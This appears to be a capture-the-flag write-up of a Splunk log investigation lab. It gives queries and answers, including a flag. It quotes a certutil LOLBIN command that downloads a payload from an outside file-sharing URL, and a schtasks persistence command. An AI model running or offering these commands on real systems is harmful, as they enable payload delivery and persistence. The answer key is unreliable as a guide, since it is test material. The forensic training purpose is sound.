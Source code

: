 # Benign



One of the client’s IDS indicated a potentially suspicious process execution indicating one of the hosts from the 
HR department was compromised. Some tools related to network information gathering/scheduled tasks were executed 
which confirmed the suspicion. Due to limited resources, we could only pull the process execution logs with 
Event ID: `4688` and ingested them into Splunk with the index `win_eventlogs` for further investigation.

All the required logs are ingested in the index `win_eventlogs`.

The network is divided into three logical segments. 

IT Department:

* James
* Moin
* Katrina

HR department:

* Haroon
* Chris
* Diana

Marketing department:

* Bell
* Amelia
* Deepak

## Questions

**How many logs are ingested from the month of March?**

Answer: `13959`

**Imposter Alert: There seems to be an imposter account observed in the logs, what is the name of that user?**

    index=win_eventlogs 
    | dedup UserName 
    | table UserName

Answer: `Amel1a`

**Which user from the HR department was observed to be running scheduled tasks?**

    index=win_eventlogs schtasks CommandLine="/create /tn OfficUpdater /tr \"C:\\Users\\Chris.fort\\AppData\\Local\\Temp\\update.exe\" /sc onstart"

Answer: `Chris.fort`

**Which user from the HR department executed a system process (LOLBIN) to download a payload from a file-sharing host.**

| ![user](../../_static/images/splunkbenign1.png)
|:--:|
| `haroon` |

    certutil.exe -urlcache -f - https://controlc.com/548ab556 benign.exe

**To bypass the security controls, which system process (lolbin) was used to download a payload from the internet?**

`benign.exe` was downloaded after a connection was established to `https://controlc.com/548ab556`. The `-f` and `-urlcache` forces a fetch of the url.

Answer: `certutil.exe`

**What was the date that this binary was executed by the infected host? format (YYYY-MM-DD)**

    index=win_eventlogs UserName="Daina" OR UserName="Chris.fort" OR UserName="Haroon" CommandLine=" certutil.exe -urlcache -f - https://controlc.com/548ab556 benign.exe" | dedup ProcessName

Answer: `2022-03-04`

**Which third-party site was accessed to download the malicious payload?**

Answer: `controlc.com`

**What is the name of the file that was saved on the host machine from the C2 server during the post-exploitation phase?**

Answer: `benign.exe`

**The suspicious file downloaded from the C2 server contained malicious content with the pattern THM{..........}; what is that pattern?**

| ![user](../../_static/images/splunkbenign2.png)
|:--:|
| `THM{KJ&*H^B0}` |

**What is the URL that the infected host connected to?**

Answer: `https://controlc.com/548ab556`